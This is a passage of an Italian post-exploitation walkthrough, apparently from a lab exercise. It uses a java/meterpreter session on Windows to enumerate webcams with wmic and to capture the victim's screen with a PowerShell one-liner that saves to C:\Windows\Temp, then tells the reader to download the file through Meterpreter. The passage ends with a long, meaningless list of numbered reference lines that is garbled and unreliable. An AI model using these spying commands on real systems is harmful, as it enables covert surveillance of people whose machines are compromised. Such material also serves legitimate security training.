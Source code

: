 ![2](./Screenshots/MeterpreterWindowsReti.png)

#### **4.3 Controllo delle webcam**
1. Questo comando non è supportato dalla sessione `java/meterpreter`. Per verificare, utilizzare la shell di Windows:
   ```cmd
   wmic path win32_pnpentity get name | findstr /i "camera"
   ```
![3](./Screenshots/MeterpreterWindowsWebcam.png)

#### **4.4 Cattura di uno screenshot**
1. Aprire **PowerShell** dalla shell di Windows:
   ```cmd
   powershell
   ```
2. Eseguire lo script per salvare uno screenshot:
   ```powershell
   Add-Type -AssemblyName System.Windows.Forms; Add-Type -AssemblyName System.Drawing; $bmp = New-Object Drawing.Bitmap([System.Windows.Forms.Screen]::PrimaryScreen.Bounds.Width, [System.Windows.Forms.Screen]::PrimaryScreen.Bounds.Height); $graphics = [Drawing.Graphics]::FromImage($bmp); $graphics.CopyFromScreen(0, 0, 0, 0, $bmp.Size); $bmp.Save('C:\Windows\Temp\screenshot.png'); $bmp.Dispose(); $graphics.Dispose()
   ```
3. Tornare a Meterpreter e scaricare lo screenshot:

[1]: 5
[2]: 3
[3]: 7
[4]: 9
[5]: 2
[6]: 8
[7]: 4
[8]: 1
[9]: 6
[10]: 10
[1]: 5
[2]: 3
[3]: 7
[1]: 1
[2]: 2
[3]: 3
[1]: 1
[2]: 2
[3]: 3
[1]: 1
[2]: 2
[1]: 1
[2]: 2